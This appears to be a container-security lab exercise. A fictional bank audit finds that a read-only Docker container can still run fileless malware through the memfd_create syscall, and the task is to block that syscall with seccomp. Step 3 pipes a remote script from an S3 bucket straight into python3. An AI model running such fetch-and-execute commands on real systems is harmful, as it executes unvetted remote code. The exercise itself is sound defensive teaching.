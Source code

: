 # WhizCash Bank

WhizCash Bank had its annual security audit. The result was forwarded to Alice, a DevSecOps Engineer in WhizCash Bank.

# Result of the External Security Audit

After the external security audit of the bank's infrastructure, a security vulnerability was found. Although the containers were started with the read-only flag, an auditor was able to execute a binary executable like malware would do.

## How does the exploit work

The auditor gives Alice the following instructions on how the exploit can currently be executed:

> **_NOTE:_**  To see what happens, Alice has to activate an audit profile for seccomp provided here [audit.json](./profiles/audit.json).

1. Starting a container with read-only file system and audit logs activated:

        sudo docker run --name fileless -d -it --rm --read-only --security-opt seccomp=[path-to-audit-json]/audit.json python:3.9.1

2. Run the following command to see which syscalls are executed

        sudo journalctl -f | grep audit

3. Run the exploit provided by the auditor:

        docker exec -it fileless /bin/bash
    
    and execute the exploit inside the container:

        curl -s https://sec4dev.s3.eu-central-1.amazonaws.com/output.py | python3

In the journalctl log you should see a syscall with the id 319:

    Oct 26 18:47:40 VM-204e5f1e-327f-4a61-a86b-dbf904cf8fa8 audit[53400]: SECCOMP auid=4294967295 uid=0 gid=0 ses=4294967295 subj=? pid=53400 comm="python3" exe="/usr/local/bin/python3.9" sig=0 arch=c000003e syscall=319 compat=0 ip=0x7fa1b4f78347 code=0x7ffc0000

## Alice's task

Alice is responsible for closing this security gap. In order to test the vulnerability, the auditor has provided Alice with a test exploit. She should find a way to prevent the syscall memfd_create so that the security gap can be closed.